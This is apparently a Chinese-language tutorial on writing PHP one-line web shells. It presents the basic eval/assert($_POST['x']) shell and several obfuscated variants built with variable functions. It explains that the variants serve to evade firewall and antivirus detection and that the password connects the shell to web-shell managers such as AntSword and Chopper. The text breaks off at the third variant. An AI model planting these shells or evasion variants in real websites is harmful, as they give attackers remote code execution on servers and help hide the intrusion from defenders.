 ```yaml
---
description: 主要是因为自己以前常常不会用一句话木马，所以专门写一个栏目来讲解如何写一句话木马，当时不知道为什么脑子总转不过弯，写不会。
---
```


# 🥥 编写一句话木马

## <mark style="color:blue;background-color:green;">（1）一句话木马是什么</mark>

首先最简单最常见的一句话

```php
<?php @eval($_POST['x']) ?>

<?php @assert($_POST['x'])?>
```

虽然是最简单，但是也可能会劝退人，也是讲解一下这句话是什么意思吧。@是就算代码是个错的依然执行；eval是执行代码的函数，这个x就是我们连接木马管理器的一个木马（可能这个地方不太知道是正常的，等后面介绍木马管理器的使用的时候就理解了）。

接下来，对这句简单的话进行变形，通过这些变形，我们可以绕过一些防火墙的拦截，就是我们常说的“免杀”。

### <mark style="color:purple;background-color:yellow;">①一句话木马的不同形态</mark>

#### 1）形态一：

```php
<?php 
$a="eval";
$a(@$_POST['x']);
?>
```

{% hint style="danger" %}
通常x就是我们连接蚁剑或者菜刀的密码。
{% endhint %}

这段代码简化的关键语句是`eval(@$_POST['X'])和基本形态没有什么区别。这应该也算是最简单的免杀了。`

#### 2)形态二

```php
<?php
$bb="eval";
$a="bb";
$$a($_POST['x']);
?>
```

这些都是php语法的简单变形，但是语句都是一样的，就不多说了。

#### 3）形态三
